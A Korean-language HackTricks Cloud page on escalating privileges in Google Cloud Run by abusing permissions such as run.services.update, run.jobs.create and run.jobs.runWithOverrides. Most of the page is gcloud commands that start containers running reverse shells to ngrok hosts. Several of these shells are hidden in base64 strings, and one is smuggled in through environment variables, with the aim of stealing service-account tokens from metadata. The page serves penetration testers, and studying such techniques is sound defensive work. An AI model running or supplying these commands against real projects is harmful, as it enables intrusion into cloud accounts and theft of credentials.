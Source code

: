 # GCP - 권한 상승 실행

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 AWS 해킹을 제로부터 전문가까지 배우세요</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)을 **팔로우**하세요.
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소를 확인하세요.

</details>

## Cloud Run

Cloud Run에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create`, `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

이 권한을 가진 공격자는 **임의의 코드를 실행하는 런 서비스를 생성**하고(임의의 Docker 컨테이너), 서비스 계정을 연결하며 코드를 통해 **메타데이터에서 서비스 계정 토큰을 유출**할 수 있습니다.

이 방법의 악용 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py)에서 찾을 수 있으며 Docker 이미지는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage)에서 찾을 수 있습니다.

`gcloud run deploy`를 사용할 때는 서비스를 생성하는 것 대신 **`update` 권한이 필요**합니다. [**여기 예제**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh)를 확인하세요.

### `run.services.update`, `iam.serviceAccounts.actAs`

이전과 유사하지만 서비스를 업데이트합니다:
```bash
gcloud run deploy hacked \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated

# If you don't have permissions to use "--allow-unauthenticated", dont use it
```
### `run.services.setIamPolicy`

이전 권한을 클라우드 Run에 부여합니다.

### `run.jobs.create`, `run.jobs.run`, `iam.serviceaccounts.actAs`,(`run.jobs.get`)

역쉘을 사용하여 작업을 시작하여 명령에 표시된 서비스 계정을 탈취합니다. [**여기**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh)에서 exploit을 찾을 수 있습니다.
```bash
gcloud beta run jobs create jab-cloudrun-3326 \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNC50Y3AuZXUubmdyb2suaW8vMTIxMzIgMD4mMQ== | base64 -d | bash" \
--service-account="<sa>@$PROJECT_ID.iam.gserviceaccount.com" \
--region=us-central1

```
### `run.jobs.update`, `run.jobs.run`, `iam.serviceaccounts.actAs`, (`run.jobs.get`)

이전과 유사하게 **작업을 업데이트하고 SA를 업데이트**하고 **명령을 실행**할 수 있습니다:
```bash
gcloud beta run jobs update hacked \
--image=mubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--execute-now
```
### run.jobs.run, run.jobs.runWithOverrides, (run.jobs.get)

작업 실행의 환경 변수를 남용하여 임의의 코드를 실행하고 역쉘을 획들하여 컨테이너의 내용(소스 코드)을 덤프하고 메타데이터 내의 SA에 액세스합니다:&#x20;

{% code overflow="wrap" %}
```bash
gcloud beta run jobs execute job-name --region <region> --update-env-vars="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/14195 0>&1' #%s"
```
{% endcode %}

### `run.jobs.setIamPolicy`

이전 권한을 Cloud Jobs에 부여합니다.

## 참고 자료

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드하려면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)을 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
